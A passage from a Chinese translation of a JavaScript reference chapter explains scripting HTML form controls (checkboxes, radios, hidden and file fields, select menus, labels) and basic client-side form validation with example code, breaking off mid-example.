> **注意：** `<textarea>` 标签的一个棘手方面是，文本换行在不同浏览器之间没有标准的支持方式。非标准的 **wrap** 属性可以设置为 "soft" 值，以在大多数浏览器中强制实现自动换行。奇怪的是，HTML 4.0 和 DOM 并未涉及此问题，但大多数浏览器的 JavaScript 对象模型通常支持访问此 HTML 属性。如果自动换行行为对您的应用程序至关重要，则必须针对每个浏览器单独处理该问题。

### 复选框和单选按钮

复选框和单选按钮（简称 "radios"）的功能比文本字段有限得多，因此通过 JavaScript 可操作的内容也更少。就 (X)HTML 语法而言，复选框和单选按钮非常相似，两者都使用 **\<input\>** 标签。复选框和单选按钮的基本 HTML 语法如下：

```
<input type="checkbox or radio"
       name="field name"
       id="field name"
       value="value for submission"
       checked="true or false" />
```

与这些元素对应的 JavaScript 对象拥有普通 **input** 元素的所有属性，以及表 14-8 中列出的额外属性。

#### 表 14-8：类型为 "radio" 或 "checkbox" 的 \<input\> 的额外属性

| 属性 | 说明 |
| :--- | :--- |
| **checked** | 布尔值，指示字段的状态 |
| **defaultChecked** | 布尔值，指示页面加载时该字段是否已选中 |

复选框和单选按钮有两个属性需要额外说明。第一个是 **checked** 属性，它只是在页面加载或重置时将字段设置为默认选中状态（在对应对象中以 **checked** 和 **defaultChecked** 属性体现）。第二个是，如果字段被选中，**value** 属性的内容将在表单提交时发送到服务器端程序。例如，给定 **\<input type="checkbox" name="testbox" id="testbox" value="green" /\>**，当该字段被选中时，将传输名值对 *testbox=green*。但是，如果没有提供 **value** 属性，则将传输值 *on*，从而形成 *testbox=on* 对。

与其他 **\<input\>** 字段一样，当然也可以对复选框和单选按钮调用 **blur()** 和 **focus()** 方法。这些字段还支持 **click()** 方法来改变控件的状态。鉴于这些方法，支持 **onblur**、**onclick** 和 **onfocus** 事件。此外，**onchange** 事件在这些字段中也非常有用。

关于复选框和单选按钮，一个重要的考虑因素是它们的命名方式。通常，复选框具有不同的名称和各自的值，如下所示：

```
<form name="testform" id="testform">

Mustard: <input type="checkbox" name="mustard" id="mustard" />

Ketchup: <input type="checkbox" name="ketchup" id="ketchup" />

</form>
```

由于每个复选框都有自己的名称，因此对它们的访问方式与其他表单元素类似。在前面的示例中，您可以通过以下方式访问这两个

可以通过 **document.testform.mustard** 和 **document.testform.ketchup** 来访问复选框。但是，如果复选框共享相同的名称，或者对于必须使用相同名称的单选按钮，你从 JavaScript 访问这些字段的方式将会有很大不同。

### 复选框和单选按钮的集合

具有相同名称的复选框和单选按钮可以通过它们共享的 **name** 作为 JavaScript 集合来访问。例如，给定以下代码，

```
<form name="test_form" id="testform">
```

芥末：

```
<input type="checkbox" name="condiments" id="check1"
value="mustard" /><br />
```

番茄酱：

```
<input type="checkbox" name="condiments" id="check2"
value="ketchup" /><br />
```

蛋黄酱：

```
<input type="checkbox" name="condiments" id="check3"
value="mayo" /><br />
```

```
</form>
```

我们会发现 **document.testform.condiments** 是一个包含各个复选框的集合。我们可以通过 **document.testform.condiments.length** 获取集合的长度，甚至可以使用数组语法（如 **document.testform.condiments[1]**）来遍历元素。

单选按钮*必须*使用这样的命名方式，因为单选按钮用于从多个选项中选择一个。所以以下内容

是：

```
<input type="radio" name="myradiogroup" id="radio1" value="yes" />
```

否：

```
<input type="radio" name="myradiogroup" id="radio2" value="no" />
```

也许：

```
<input type="radio" name="myradiogroup" id="radio3" value="maybe" />
```

是正确且能正常工作的，而以下内容

是：

```
<input type="radio" name="myradiogroup" id="radio1" value="yes" />
```

否：

```
<input type="radio" name="myradiogroup2" id="radio2" value="no" />
```

也许：

```
<input type="radio" name="myradiogroup3" id="radio3" value="maybe">
```

则不行，因为它没有保留单选按钮预期的"多选一"行为。

> **注意** 在单选按钮等分组元素的情况下，你可能会注意到 **name** 和 **id** 的值并不匹配。这是 XHTML 中的一个小差异，其中元素的 **id** 必须是唯一的，而 **name** 值则不应该是唯一的。要小心，你确实需要了解你的标记语言才能充分利用 JavaScript。

考虑到在单选按钮或复选框组中通常会有一组同名的元素，你可能需要遍历该集合才能确定哪个项目被选中。下面提供了一个完整的示例，展示了这一点以及其他单选按钮和复选框的特性；其渲染效果如图 14-3 所示。


**图 14-3：** Internet Explorer 下的复选框/单选按钮示例

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
<title>radio/checkbox test</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function showradiovalue(radiogroup)
{
    var numradios = radiogroup.length;

    for (var i = 0; i < numradios; i++)
        if (radiogroup[i].checked)
            alert('radio '+i+' with value of '+radiogroup[i].value);
}
//-->
</script>
</head>
<body>
<h2 align="center">Test Form</h2>
<form name="testform" id="testform" action="#" method="get">
<em>Checkbox: </em>
<input type="checkbox" name="check1" id="check1" value="testvalue" />
<br /><br />
<em>radio buttons: </em>
yes:
<input type="radio" name="radiogroup1" id="radio1" value="yes" />
no:
<input type="radio" name="radiogroup1" id="radio2" value="no" />
maybe:
<input type="radio" name="radiogroup1" id="radio3" value="maybe" />
<br /><br />
<input type="button" value="Click checkbox"
    onclick="document.testform.check1.click();" />
<input type="button" value="Click radio"
    onclick="document.testform.radiogroup1[0].click();" />
<input type="button" value="Focus checkbox"
    onclick="document.testform.check1.focus();" />
<input type="button" value="Blur checkbox"
    onclick="document.testform.check1.blur();" />
<input type="button" value="Checkbox state"
    onclick="alert('checked?'+document.testform.check1.checked);" />
<input type="button" value="Radio state"
    onclick="showradiovalue(document.testform.radiogroup1);" />
</form>
<hr />
<h2 align="center">Field Properties</h2>
<script type="text/javascript">
<!--
with (document)
{
    write("checked: " + document.testform.check1.checked+"<br />");
    write("defaultchecked: "+document.testform.check1.defaultChecked+
        "<br />");
    write("form: " + document.testform.check1.form+"<br />");
    write("form.name: " + document.testform.check1.form.name+"<br />");
    write("name: " + document.testform.check1.name+"<br />");
    write("type: " + document.testform.check1.type+"<br />");
    write("value: " + document.testform.check1.value+"<br /><br />");
    write("radiogroup array:" + document.testform.radiogroup1+"<br />");
    write("radiogroup array length:" +
    document.testform.radiogroup1.length+"<br />");
    for (var i=0; i < document.testform.radiogroup1.length; i++)
       write("radiogroup["+i+"].value:" +
             document.testform.radiogroup1[i].value+"<br />");
}
//-->
</script>
</body>
</html>
```

### 隐藏字段

隐藏表单字段使用 `<input type="hidden" />` 定义。它们用于为服务端程序维护状态信息的控制。隐藏表单元素永远不会在屏幕上渲染，但它们的名称-值对会在表单提交时被发送。因为它是不可见且不可交互的，所以隐藏字段的 XHTML 语法本质上如下：

```
<input type="hidden" name="fieldname" id="fieldname" value="fieldvalue" />
```

用于操作隐藏字段的 JavaScript 属性很简单，就是 **disabled**、**form**、**id**、**name** 和 **value**（这些在前面讨论文本字段时已经介绍过）。隐藏字段对某些读者来说可能看起来不太有用，但对于许多状态保存任务，它们往往很难替代。我们将在本章后面讨论表单验证时，看到这种表单字段的一些有趣应用。

> **注意** *隐藏字段在用于状态控制信息时有一个危险的缺点——它们很容易被好奇或恶意的终端用户查看和修改。*

### 文件上传字段

`<input>` 的最后一种类型是由 `<input type="file" />` 定义的文件上传控件。该字段的基本 XHTML 语法为

```
<input type="file"
      id="field name"
      name="field name"
      size="field width in characters"
      accept="MIME types allowed for upload" />
```

该标签会创建一个类似于支持浏览器中所示的文件上传字段。

要上传的文件：c:\temp\ 浏览...


文件上传字段除了 HTMLInputElement 提供的属性外，还有一个额外的属性，如表 14-9 所示。accept 属性用于定义用户可以上传的 MIME 类型。不幸的是，由于浏览器对该属性缺乏支持，它实际上是无用的。

#### 表 14-9：类型为 "file" 的 `<input>` 的附加属性

| 属性 | 描述 |
| :--- | :--- |
| accept | 用户允许上传的文件的 MIME 类型的逗号分隔列表 |

> **注意** 文件上传字段的一个常见疏忽是，为了使其正常工作，表单必须设置 method="POST"，并且 enctype 属性必须设置为 "multipart/form-data"。

### 选择菜单

在 (X)HTML 中，`<select>` 标签用于创建两种不同类型的下拉菜单。第一种也是最常见的是单选菜单，通常简称为下拉菜单。第二种菜单形式允许多选，通常称为滚动列表。在 JavaScript 中，我们传统上通过一个对象来引用这两种标签，简称为 Select 对象。在 DOM Level 1 下，这种组合方式被保留下来，但该对象的正确名称是 HTMLSelectElement。

为了开始讨论，我们首先给出一个包含常见的单选下拉菜单和多选菜单的 XHTML 示例：

**单机器人选择：**

```
<select name="robot" id="robot">
    <option>Security</option>
    <option>Trainer</option>
    <option>Friend</option>
    <option>Cook</option>
```


#### 表 14-10：HTMLSelectElement 对象的附加属性和方法

**HTMLSelectElement** 具有与其他表单字段相同的属性和方法（**name**、**disabled**、**size**、**tabIndex**、**form**、**focus()** 和 **blur()**），以及表 14-10 中所示的附加属性和方法。其中一些需要进一步说明。首先是 **multiple**，该属性存在时表示该菜单为多选菜单。**size** 属性用于指示在字段中显示的选项数量；默认情况下，该属性的值为 1。

| 属性 | 说明 |
| :--- | :--- |
| **length** | 该元素包含的 <**option**> 数量（**options[]** 集合的长度）。 |
| **multiple** | 布尔值，指示用户是否可以选择多个选项。 |
| **SelectedIndex** | **options[]** 集合中当前选中选项的索引。如果 **multiple** 为 **true**，则此属性仅保存第一个被选中的选项。 |
| **Size** | 同时可见的选项数量（下拉菜单为 1，滚动列表则大于 1）。 |
| **options[]** | <**select**> 包含的 **Options** 集合。 |
| **value** | 字符串，保存当前选中选项的 **value** 属性。如果 **multiple** 为 **true**，则仅显示第一个选中选项的值。 |
| **add(element, before)** | 在 **Option** *before* 之前插入新的 **Option** *element*。 |
| **remove(index)** | 删除 **options[]** 集合中位置为 *index* 的 **Option**。 |

> **注意**：**Select** 对象的 **value** 属性在旧浏览器中支持不佳。因此请避免使用它。相反，应使用 **selectedIndex** 结合 **options[]** 集合来手动提取选中的值。

许多类似的事件处理程序（如 **onfocus**）也可用于该对象，但对于 `<select>` 最有用的事件处理程序是 **onchange**，每当用户在菜单中选择不同选项时就会触发该事件。

编写选择菜单脚本的关键（无论是单选还是多选菜单）在于了解如何检查 **options[]** 集合中当前选中的值。对于单选菜单，当前选中的选项保存在 **selectedIndex** 属性中，很容易获取。例如，给定一个表单 **testform** 中名为 *testselect* 的 `<select>`，**document.testform.testselect.selectedIndex** 将引用所讨论的具体选项。要查看所选选项的值，必须使用类似 **alert(document.testform.testselect.options[document.testform.testselect .selectedIndex].value** 的较长语句。如您所见，这会很快变得难以处理，因此经常使用 **this** 简写形式配合 `<select>`，如下所示：

```html
<form>
    <select onchange="alert(this.options[this.selectedIndex].value);">
        <option value="value one">选项 1</option>
        <option value="value two">选项 2</option>
        <option value="value three">选项 3</option>
    </select>
</form>
```

**然而，当 multiple 属性为 true 时，你需要遍历 options[] 集合以查找所有选中的项目：**

```javascript
<script type="text/javascript">
<!--
function showSelected(menu)
  {
   var i, msg="";
   for (i=0; i < menu.options.length; i++)
      if (menu.options[i].selected)
         msg += "选项 "+i+" 已选中\n";

   if (msg.length == 0)
      msg = "没有选中任何选项";
   alert(msg);
  }
//-->
</script>
```

```html
<form name="myform" id="myform">
  <select name="myselect" id="myselect" multiple="true">
    <option value="Value 1" selected="true">选项 1</option>
    <option value="Value 2">选项 2</option>
    <option value="Value 3" selected="true">选项 3</option>
    <option value="Value 4">选项 4</option>
    <option value="Value 5">选项 5</option>
  </select>
  <br />
  <input type="button" value="显示已选中项"
        onclick="showSelected(document.myform.myselect);" />
</form>
```

### Option 元素

既然我们已经介绍了如何访问选择菜单中的选项，让我们来看看 **Option** 元素本身的属性。这些对象具有大多数其他表单元素的属性和方法，以及表 14-11 中列出的那些。

| 属性 | 说明 |
| --- | --- |
| **defaultSelected** | 布尔值，指示该选项是否默认选中（即 **<option>** 标签是否有 **selected** 属性）。 |
| **index** | 数字，指示该选项在其所属的 **Select** 的 **options[]** 集合中的位置。 |
| **selected** | 布尔值，指示该选项当前是否被选中。 |
| **Text** | 字符串，保存开、闭 **<option>** 标签之间的文本。这经常与 **value** 混淆；由于发送给服务器的是开、闭 **<option>** 标签之间的文本，因此其 **value** 无需指定。 |
| **value** | 字符串，保存 **value** 属性的文本，如果该选项在提交时被选中，则会发送到服务器。 |

### 编写选择菜单脚本

表单字段可编写脚本意味着你可以根据用户对其他元素的操作来影响某个元素的外观或内容。我们将在本章后面多次看到这种技术，但最常见的应用可能是与选择菜单配合使用。

相关选择菜单能够快速向用户展示大量选项。在 JavaScript 中构建此类菜单的关键在于理解如何动态编辑甚至添加新的 `<option>` 到菜单中。在 JavaScript 中实现这一点的传统方法是使用 **new** 运算符调用 **Option()** 构造函数，然后将生成的选项插入到菜单中。

**Option** 构造函数的语法为

```javascript
var newOption = new Option(optionText, optionValue);
```

其中 *optionText* 是保存开、闭 `<option>` 标签之间文本的字符串，*optionValue* 是指定元素 **value** 属性的字符串。

创建后，**Option** 对象可以插入到选择菜单的 **options[]** 集合中。你可以通过将未使用的条目值设置为 **null** 来删除它们。下面的简单示例提供了两个菜单，一个是国家，另一个是城市列表。当用户选择国家时，城市菜单将动态更改。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
<title>相关选择测试</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
// 创建数组以保存每个国家的城市
var cities = new Array(4);
cities["Australia"] =
    ["Sydney", "Melbourne", "Canberra", "Perth", "Brisbane"];
cities["France"] =
    ["Paris", "Lyons", "Nice", "Dijon"];
cities["Japan"] = ["Tokyo", "Kyoto", "Osaka", "Nara"];
cities["New Zealand"] =
    ["Auckland", "Wellington", "Christchurch", "Dunedin", "Queenstown"];

function removeOptions(optionMenu)
{
    for (var i=0; i < optionMenu.options.length; i++)
        optionMenu.options[i] = null;
}

function addOptions(optionList, optionMenu)
{
    removeOptions(optionMenu);  // 清除选项
    for (var i=0; i < optionList.length; i++)
        optionMenu[i] = new Option(optionList[i], optionList[i]);
}
//-->
</script>
</head>
<body>
<h2>度假选择器</h2>
<form name="testform" id="testform" action="#" method="get">
国家：
<select name="country" id="country"
        onchange="addOptions(cities[this.options[this.selectedIndex].text],
                              document.testform.city);">
    <option selected="selected">Australia</option>
    <option>France</option>
    <option>Japan</option>
    <option>New Zealand</option>
</select>
城市：
<select name="city" id="city">
    <option>Sydney</option>
    <option>Melbourne</option>
    <option>Canberra</option>
    <option>Perth</option>
    <option>Brisbane</option>
</select>
```


</form>

</body>

</html>

前面的示例展示了动态操作下拉菜单的传统方法。Internet Explorer 以及符合 DOM Level 1 的浏览器支持 **add(element, before)** 和 **remove(index)** 方法，以便更轻松地处理 `<select>` 菜单中的选项列表。**remove()** 方法在 Internet Explorer 中的工作方式与在 DOM 中相同，但 **add()** 方法可能有些棘手。在 DOM 中，**add()** 期望 ***before*** 参数指定一个特定的 **HTMLOptionElement** 对象；而按照传统方式，在 Internet Explorer 中则传递一个索引值。

### 选项组

有一个相对不为人知且支持不佳的菜单标签 `<optgroup>`，可用于对选项进行分组，甚至创建子菜单。例如，考虑如下所示的标记：

```html
<select name="robotchooser" id="robotchooser">
    <option>Choose your robot</option>
    <option>------------------</option>
    <option>Butler</option>
    <optgroup label="Security Models">
        <option>Man</option>
        <option>K-9</option>
    </optgroup>
    <optgroup label="Friend Models">
        <option>Female</option>
        <option>Male</option>
    </optgroup>
    <option>Trainer</option>
</select>
```

在支持标准的浏览器（如 Netscape 6 及更高版本）中，你可能会看到右侧所示的内容。


除了任何 (X)HTML 元素通用的标准属性之外，DOM 仅提供两个属性来通过 **HTMLOptGroupElement** 对象操作此元素，它们如表 14-12 所示。奇怪的是，与 **select** 元素不同，DOM 没有提供快捷方法来操作由 `<optgroup>` 标签包裹的选项，也没有定义 **form** 或类似的属性。

**表 14-12：HTMLOptGroupElement 对象的特定 DOM 属性**

| 属性 | 描述 |
| :--- | :--- |
| **disabled** | 布尔值，指示用户是否可以与此选项组交互 |
| **label** | 字符串，保存此选项组标签的文本 |

### 其他表单元素：Label、Fieldset 和 Legend

HTML 还支持一些其他用于表单的标签，主要用于改进可访问性和样式表。例如，`<label>` 标签为其包裹的表单字段应用标签，以改进可用性和非可视化用户代理。以下是使用 `<label>` 标签的两个示例：

```html
<form action="#" method="get">
<label>Username:
<input type="text" id="username" name="username" />
</label><br />
<label for="userpassword">Password: </label>
<input type="password" id="userpassword" name="userpassword" />
</form>
```

**HTMLLabelElement** 对象除支持 (X)HTML 元素的标准 DOM 属性和方法之外，还支持表 14-13 所示的属性。注意使用 **htmlFor** 来表示 **for** 属性，这是因为在 JavaScript 中，**for** 是保留关键字。我们将在本章后面看到 `<label>` 的另一个用途，以改进表单可用性。

**表 14-13：HTMLLabelElement 对象的属性**

| 属性 | 描述 |
| :--- | :--- |
| **accessKey** | 字符串，将焦点设置到此元素的快捷键，由 **accesskey** 属性定义 |
| **form** | 对此元素的 **Form** 对象的引用 |
| **htmlFor** | 字符串，包含此标签所应用的元素的 **name** 或 **id** 属性值 |

`<fieldset>` 标签用于定义一组元素的分组。`<legend>` 标签在 `<fieldset>` 内使用，为分组创建标签。以下是这两个标签使用方式的示例：

```html
<form action="#" method="get">
<fieldset>
<legend>Login Info</legend>
<label>Username:
<input type="text" id="username" name="username" />
</label><br />
<label for="userpassword">Password: </label>
<input type="password" id="userpassword" name="userpassword" />
</fieldset>
</form>
```

通常，浏览器会在 `<fieldset>` 内的元素周围渲染一个框，如下所示。


即使支持 DOM，从 JavaScript 中对 `<fieldset>` 和 `<legend>` 的控制也非常有限。**HTMLFieldSetElement** 和 **HTMLLegendElement** 对象所支持的核心 (X)HTML 属性之外的属性分别如**表 14-14** 和 14-15 所示。如你所见，这些标签在交互操作方面能做的确实很少。

**表 14-14：HTMLFieldSetElement 对象支持的额外属性**

| 属性 | 描述 |
|---|---|
| **form** | 对包含该对象的表单的引用 |

**表 14-15：HTMLLegendElement 对象的属性**

| 属性 | 描述 |
|---|---|
| **accessKey** | 字符串，将焦点设置到该元素的快捷键，由 **accesskey** 属性定义 |
| **align** | 字符串，指示该元素的对齐方式（"top"、"bottom"、"right" 或 "left"） |
| **form** | 对包含该元素的表单的引用 |

现在我们已经回顾了如何从 JavaScript 访问所有类型的 (X)HTML 表单元素，是时候通过验证、可用性改进和动态表单来应用我们的知识以改进表单使用了。

### 表单验证

JavaScript 中最有用的功能之一就是检查表单是否填写正确。在提交之前检查表单内容可以节省服务器处理周期以及用户等待网络往返以查看是否在表单中输入了正确数据的时间。本节概述了一些常见的表单验证技术。

表单验证首先要考虑的问题是何时捕获表单填写错误。有三种可能的选择：

1. 在它们发生之前（阻止它们发生）
2. 在它们发生时
3. 在它们发生之后

通常，表单倾向于在输入完成后、提交前进行验证。通常，表单的 **onsubmit** 事件处理程序中的一组验证函数负责验证。如果字段包含无效数据，则显示一条消息，并通过从处理程序返回 **false** 来取消提交。如果字段有效，处理程序返回 **true**，提交继续正常进行。

考虑下面这个简短的示例，它执行一个简单的检查以确保字段不为空：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
<title>Overly Simplistic Form Validation</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function validate()
{
    if (document.myform.username.value == "")
    {
        alert("Username is required");
        return false;
    }
    return true;
}
//-->
```

```html
</script>
</head>
<body>
<form name="myform" id="myform" method="get"
      action="http://www.javascriptref.com/"
      onsubmit="return validate();">
Username:
<input type="text" name="username" id="username" size="30" />
<input type="submit" value="submit" />
</form>
</body>
</html>
```

前面的示例存在诸多缺陷。首先，它并没有很好地检查字段。使用此验证时，单个空格是可接受的。其次，它不够抽象，因为验证函数仅适用于该文档中的 *username* 字段；它无法应用于通用字段。最后，验证不会将出错的字段设置为焦点。这里提供了一个更好的示例，纠正了所有这些缺陷：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
<title>Better Form Validation</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
// Define whitespace characters
var whitespace = " \t\n\r";
function isEmpty(s)
{
   var i;
   if((s == null) || (s.length == 0))
```


 ```
return true;
// Search string looking for characters that are not whitespace
for (i = 0; i < s.length; i++)
{
    var c = s.charAt(i);
    if (whitespace.indexOf(c) == -1)
        return false;
}
// At this point all characters are whitespace.
return true;
}

function validate()
{
    if (isEmpty(document.myform.username.value))
    {
        alert("Error: Username is required.");
        document.myform.username.focus();
        return false;
    }
    if (isEmpty(document.myform.userpass.value))
    {
        alert("Error: Non-empty password required.");
        document.myform.userpass.focus();
        return false;
    }
    return true;
}
```

```
//-->

</script>

</head>

<body>

<form name="myform" id="myform" method="get"
    action="http://www.javascriptref.com"
    onsubmit="return validate();">

Username:
<input type="text" name="username" id="username"
    size="30" maxlength="60" />
<br />
Password:
<input type="password" name="userpass" id="userpass"
    size="8" maxlength="8" />
<br />
<input type="submit" value="Submit" />

</form>

</body>

</html>
```

### 抽象化表单验证

前面的示例展示了编写通用输入验证例程是多么有用。你不必为网站上的每个表单重复编写相同或类似的字段检查函数，而是可以编写一个验证函数库，轻松插入到你的页面中。为了确保可重用性，这些函数不应该硬编码表单和字段名称。验证函数不应该按名称从表单中提取要验证的数据；相反，数据应该被传入函数进行检查。这样你就可以将函数放到任何页面中，并通过少许事件处理程序"胶水"将它们应用到表单，只需向它们传递适当的字段即可。

表单检查函数的功能不应仅限于检查字段是否非空。常见的检查包括：确保字段是数字、是某个范围内的数字、是某种格式的数字（如美国邮政编码或社会安全号码）、仅包含某些特定字符（如仅字母字符），以及判断输入是否至少看起来像是电子邮件地址或信用卡号码。其中很多检查，特别是电子邮件地址和信用卡号码检查，实际上并不够严谨。电子邮件地址*看起来*有效并不意味着它*确实*有效。我们在这里介绍电子邮件和数字检查，以演示常见验证例程的实际应用。

> 注意 *正则表达式是表单验证中不可或缺的工具，因为它们让你可以用很少的代码根据模式检查输入字符串。没有它们，你就只能手动编写复杂的字符串解析函数。我们将结合使用手动技术和正则表达式。注意观察使用正则表达式是多么容易。*

许多表单用于收集电子邮件地址，在提交之前发现地址中的任何问题都是有好处的。不幸的是，很难保证地址的格式一定有效。一般来说，关于电子邮件地址，你能快速做出的最好判断大概是它的格式为*userid@domain*，其中*userid*是一个字符串，*domain*是一个包含点的字符串。判断电子邮件地址是否"真正"有效的规则实际上相当复杂，需要考虑过时的邮件地址格式、IP地址和其他边缘情况。由于电子邮件地址格式的广泛变化，许多验证例程通常只查找*string@string*这样的形式。如果你想极其精确，甚至有可能电子邮件地址中右侧没有点（.）！这里的函数检查传入的字段，看是否像一个有效的电子邮件地址。

```
function isEmail(field)
{
  var positionOfAt;
  var s = field.value;

  if (isEmpty(s))
    {
      alert("Email may not be empty");
      field.focus();
      return false;
    }

  positionOfAt = s.indexOf('@',1);
  if ( (positionOfAt == -1) || (positionOfAt == (s.length-1)) )
    {
      alert("E-mail not in valid form!");
      field.focus();
      return false;
    }
  return true;
}
```

我们可以使用正则表达式更优雅地重写这个函数：

```
function isEmail(field)
{
  var s = field.value;

  if (isEmpty(s))
    {
      alert("Email may not be empty");
      field.focus();
      return false;
    }

  if (/[^@]+@[^@]+/.test(s))
    return true;

  alert("E-mail not in valid form!");
  field.focus();
  return false;
}
```

上面的正则表达式应该读作"一个或多个非@字符，后跟一个@，再后跟一个或多个非@字符。"显然，如果需要，我们可以比这更严格。例如，使用 /[^@]+@(\w+\.)+\w+/ 效果更好。它匹配的字符串结构为：字符（如"john"），后跟一个@，再后跟一个或多个由单词字符和点组成的序列（如"mail.yahoo."），最后是单词字符（如"com"）。

检查数字也并不太困难。你可以查找数字，甚至可以检测传入的数字是否在某个允许的范围内。下面的例程展示了如何实现：

```
function isDigit(c)
{
  return ((c >= "0") && (c <= "9"))

  // Regular expression version:
  // return /^\d$/.test(c);
}
```

由于 *isDigit()* 例程非常简单，正则表达式版本并没有好多少。但考虑这个更复杂的例子：

```
function isInteger(s)
{
  var i=0, c;

  if (isEmpty(s))
    return false;

  if (s.charAt(i) == "-")
    i++;
```

```
  for (i = 0; i < s.length; i++)
  {
    // Check if all characters are numbers
    c = s.charAt(i);

    if (!isDigit(c))
      return false;
  }

  return true;
}
```

正则表达式版本要*远远*更优雅：

```
function isInteger(s)
{
  return /^-?\d+$/.test(s);
}
```

使用的正则表达式应该读作"在字符串最开始处，有一个可选的负号，后跟一个或多个数字，直到字符串结尾。"

> 注意 *你也可以通过将字符串数据传递给 **parseInt()** 并检查是否返回了 **NaN**，来编写一个同样优雅的 isInteger() 函数。*

由于正则表达式仅对模式匹配有用，在某些情况下它们的价值有限：

```
function isIntegerInRange (s,min,max)
{
  if (isEmpty(s))
    return false;

  if (!isInteger(s))
    return false;

  var num = parseInt (s);

  return ((num >= min) && (num <= max));
}
```

### 即插即用表单验证

最后一个问题是，如何轻松地将这些例程添加到任何表单中工作。有很多种方法可以做到这一点。在下一个示例中，我们使用一个数组来保存字段名称和所需的验证类型。然后你可以遍历该数组并应用适当的验证例程，如下所示：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
<title>Generic Form Check Demo</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--

var validations = new Array();

// Define which validations to perform. Each array item
// holds the form field to validate, and the validation
// to be applied. This is the only part you need to
// customize in order to use the script in a new page!

validations[0]=["document.myform.username", "notblank"];
validations[1]=["document.myform.useremail", "validemail"];
validations[2]=["document.myform.favoritenumber", "isnumber"];

// Customize above array when used with a new page.

function isEmpty(s)
{
  if (s == null || s.length == 0)
    return true;

  // The test returns true if there is at least one non-
  // whitespace, meaning the string is not empty. If the
  // test returns true, the string is empty.

  return !/\S/.test(s);
}
```

```
function looksLikeEmail(field)
{
  var s = field.value;

  if (isEmpty(s))
  {
    alert("Email may not be empty");
    field.focus();
    return false;
  }

  if (/^[^@]+@\w+/.test(s))
    return true;

  alert("E-mail not in valid form.");
  field.focus();
  return false;
}
```

```
function isInteger(field)
{
  var s = field.value;

  if (isEmpty(s))
  {
    alert("Field cannot be empty");
    field.focus();
    return false;
  }
```


[第 523 页]

```javascript
if (!(/^-?\d+$/.test(s)))
{
  alert("Field must contain only digits");
  field.focus();
  return false;
}
return true;
}
```

```javascript
function validate()
{
  var i;
  var checkToMake;
  var field;

  for (i = 0; i < validations.length; i++)
  {
    field = eval(validations[i][0]);
    checkToMake = validations[i][1];
    switch (checkToMake)
    {
      case 'notblank': if (isEmpty(field.value))
                       {
                         alert("Field may not be empty");
                         field.focus();
                         return false;
```

```javascript
        }
        break;

        case 'validemail':  if (!looksLikeEmail(field))
                            return false;

                            break;

        case 'isnumber':  if (!isInteger(field))

                            return false;

        }

    }

    return true;

}

//--> 

</script>

</head>

<body>

<form name="myform" id="myform" method="get"

       action="http://www.javascriptref.com"

       onsubmit="return validate();">
```

用户名：

```html
<input type="text" name="username" id="username"

             size="30" maxlength="60" />

<br />
```

电子邮件：

```html
<input type="text" name="useremail" id="useremail"

        size="30" maxlength="90" />

<br />
```

最喜欢的数字：

```html
<input type="text" name="favoritenumber"

      id="favoritenumber" size="10" maxlength="10" />

<br />

<input type="submit" value="submit" />

</form>

</body>

</html>
```

这种方法的好处在于，它很容易将这些验证例程添加到几乎任何页面中。只需将脚本放在页面中，自定义 **validations[]** 数组以保存你希望验证的表单字段以及表示要执行的验证的字符串，最后将 **validate()** 的调用添加为表单的 **onsubmit** 处理程序。将验证机制（检查函数）与策略（检查哪些字段以及检查什么）分离开来，从长远来看可以提高可重用性并降低维护成本。

### 通过隐藏字段进行表验

一个更优雅的可能性是使用隐藏表单字段以及（信不信由你）比我们刚才看到的更加通用的例程。例如，你可以这样定义字段对：

```html
<input type="hidden" name="*fieldname_check*"

value="validationroutine">

<input type="hidden" name="*fieldname_errormsg*"

value="msg to the user if validation fails">
```

你需要为每个要验证的条目定义隐藏的表单字段，因此要检查一个名为 *username* 的字段是否不为空，你可以使用

```html
<input type="hidden" name="username_check" value="notblank">

<input type="hidden" name="username_errormsg"

value="A username must be provided">
```

要检查电子邮件地址，你可以使用

```html
<input type="hidden" name="email_check" value="validEmail">

<input type="hidden" name="email_errormsg"

value="A valid email address must be provided">
```

然后，你会编写一个循环来遍历正在提交的表单中的隐藏字段，并查找形式为 *fieldname_check* 的字段。当你找到一个时，你可以使用字符串例程来解析出字段名称以及要对其运行的检查。如果检查失败，你可以通过访问字段 *fieldname_errormsg* 轻松找到要显示的关联错误消息。

**注意** *隐藏字段方法更加优雅的主要原因之一是，我们可以轻松地让 Web 方程的服务端查看传递的隐藏值并运行类似的验证检查。这种双重检查看似浪费时间，但实际上提高了安全性，因为无法真正知道客户端 JavaScript 验证是否已运行。*

无论你选择哪种方法，都应该清楚这种方法非常有用，因为它允许你将重用的 JavaScript 验证函数分离到 .js 文件中，并从几乎任何表单页面引用。然而，在开始着手编写自己的验证例程之前，请考虑一下已经有很多人需要做同样的事情。代码已经在 Web 上存在了，因此从库开始编写验证代码是合理的。例如，可以查看 http://developer.netscape.com/docs/examples/javascript.html 获取一些示例脚本。Netscape 从 JavaScript 1.0 开始就提供了表单验证代码集合，同时也提供了基于正则表达式的检查。

### onchange 处理程序

你没有理由非要等到表单提交时才验证其字段。你可以通过使用 **onchange** 事件处理程序在用户修改字段后立即验证该字段。例如：

```html
<script type="text/javascript">

<!--

function validateZip(zip)

{

